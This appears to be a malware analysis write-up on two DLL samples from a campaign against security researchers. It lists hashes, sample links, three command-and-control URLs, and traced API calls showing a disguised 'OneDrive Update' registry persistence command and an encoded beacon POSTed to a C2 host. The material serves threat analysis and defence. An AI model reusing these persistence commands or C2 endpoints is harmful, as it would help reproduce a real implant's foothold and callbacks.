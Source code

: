 SHA256 : 4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
SHA256 : A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855  
sample source : https://bazaar.abuse.ch/sample/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244/  
sample source : https://bazaar.abuse.ch/sample/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855/  
VT : https://www.virustotal.com/gui/file/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
VT : https://www.virustotal.com/gui/file/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855   

Report: https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/  

C2 :  
https://www.dronerc.it/shop_testbr/upload/upload.php  
https://transplugin.io/upload/upload.asp  
https://codevexillium.org/image/download/download.asp  

---

Initial DLL (4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244) is dropping, 'installing' and starting the 2nd DLL (A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855) through a basic persistency mechanism :  

```html
[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <RegSetValueExA> in [ADVAPI32.dll] 
[PAR] HKEY    hKey        : 0xf0 
[PAR] LPCTSTR lpValueName : 0x0000003DFD70EDB0
[STR]         -> "OneDrive Update"
[PAR] DWORD   dwType      : 0x1 (REG_SZ)
[PAR] BYTE    *lpData     : 0x0000003DFD70EEE0
            -> 0x0000003DFD70EEE0
[STR] -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[RET] 0x7ff9b1563879 in [cms_data_final.dll]

[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <CreateProcessA> in [KERNEL32.DLL] 
[PAR] LPCTSTR               lpApplicationName    : 0x0 (null)
[PAR] LPCTSTR               lpCommandLine        : 0x0000003DFD70EEE0
[STR]                       -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes  : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes   : 0x0
[PAR] BOOL                  bInheritHandles      : 0x0
[PAR] DWORD                 dwCreationFlags      : 0x8000000 (CREATE_NO_WINDOW)
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCSTR                lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOA        lpStartupInfo        : 0x0000003DFD70CD30
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x0 
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x0000003DFD70CD10
[RET] 0x7ff9b156397d in [cms_data_final.dll]
```
--- 
There is then nothing much to observe through dynamic analysis :  

```html
[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <InternetConnectW> in [WININET.dll] 
[PAR] HINTERNET     hInternet      : 0xcc0010
[PAR] LPCWSTR       lpszServerName : 0x000000457D49CF40 ("transplugin.io")
[PAR] INTERNET_PORT nServerPort    : 443
[PAR] LPCWSTR       lpszUsername   : 0x0 (null)
[PAR] LPCWSTR       lpszPassword   : 0x0 (null)
[PAR] DWORD         dwService      : 0x3 (INTERNET_SERVICE_HTTP)
[PAR] DWORD         dwFlags        : 0x0 
[RET] 0x1800029f1

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpOpenRequestW> in [WININET.dll] 
[PAR] HINTERNET hConnect           : 0xcc0014
[PAR] LPCWSTR   lpszVerb           : 0x00000001800580D0 ("POST")
[PAR] LPCWSTR   lpszObjectName     : 0x000000457D49D920
[STR]           -> "/upload/upload.asp"
[PAR] LPCWSTR   lpszVersion        : 0x00000001800580B8
[STR]           -> "HTTP/1.0"
[PAR] LPCWSTR   lpszReferer        : 0x0 (null)
[PAR] LPCWSTR   *lplpszAcceptTypes : 0x0
[PAR] DWORD     dwFlags            : 0x803000 (INTERNET_FLAG_SECURE | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_IGNORE_CERT_CN_INVALID)
[RET] 0x180002a44

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpSendRequestW> in [WININET.dll] 
[PAR] HINTERNET hRequest         : 0xcc0018
[PAR] LPCWSTR   lpszHeaders      : 0x0 (null)
[PAR] DWORD     dwHeadersLength  : 0x0
[PAR] LPVOID    lpOptional       : 0x000000457F1868C0
[STR]           -> "XW=EZYNQE&XOHTN=NDkwMThYOU8zSWRuQjJONw==&EWKK=&HIXXEE=0&HPYYJD=52&JTMDLK=MgAwADIANQAtADAAMwAtADAANAAgADIAMQA6ADMANwA6ADM"
[STR]              "AOQA=&LSZRYMNDS=IPTDYCTZLUHNEJATJ&NONPECZ=FLOTMDRIMZIUQZZG"
[PAR] DWORD     dwOptionalLength : 0xb2
[RET] 0x18000314f
```
--- 

Going through some statical analysis it is possible to identify which library was linked with the malware to provide the cryptographic layer :  

![Alt text](screen/crypto.jpg?raw=true "statically linked lib")

The associated lib was very likely obtained from here :  

https://www.mail-archive.com/openssl-dev@openssl.org/msg28042.html  

![Alt text](screen/source.jpg?raw=true "statically linked lib")

Going further with dynamic analysis would require implemeting a C2 supporting this ECIES encrypted communication protocol

